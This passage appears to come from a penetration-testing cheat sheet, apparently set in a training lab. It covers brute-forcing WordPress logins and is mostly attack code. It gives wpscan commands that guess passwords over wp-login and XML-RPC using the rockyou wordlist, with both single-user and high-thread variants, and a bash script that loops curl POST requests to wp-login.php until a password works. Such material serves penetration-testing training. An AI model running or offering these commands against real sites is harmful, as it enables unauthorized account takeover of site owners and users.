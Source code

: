 #### Traditional wp-login Method
```bash
# Standard login page brute force
wpscan --password-attack wp-login \
  -t 10 \
  -U admin \
  -P /usr/share/wordlists/rockyou.txt \
  --url http://blog.inlanefreight.local

# Use when XML-RPC is disabled or blocked
```

#### Targeted User Attack
```bash
# Focus on specific user with custom wordlist
wpscan --password-attack xmlrpc \
  -U john \
  -P custom_passwords.txt \
  --url http://blog.inlanefreight.local

# Single user attack with high thread count
wpscan --password-attack xmlrpc \
  -t 50 \
  -U john \
  -P /usr/share/wordlists/rockyou.txt \
  --url http://blog.inlanefreight.local
```

### Manual Brute Force Techniques

#### Custom Login Attack Scripts
```bash
#!/bin/bash
# manual-wp-brute.sh - Custom WordPress brute force

target="http://blog.inlanefreight.local"
user="john"
wordlist="/usr/share/wordlists/rockyou.txt"

while IFS= read -r password; do
    response=$(curl -s -X POST "$target/wp-login.php" \
        -d "log=$user&pwd=$password&wp-submit=Log+In" \
        -L)
    
    if [[ $response != *"The password for username"* ]] && [[ $response != *"not registered"* ]]; then
        echo "[+] Success: $user:$password"
        exit 0
    fi
done < "$wordlist"
```
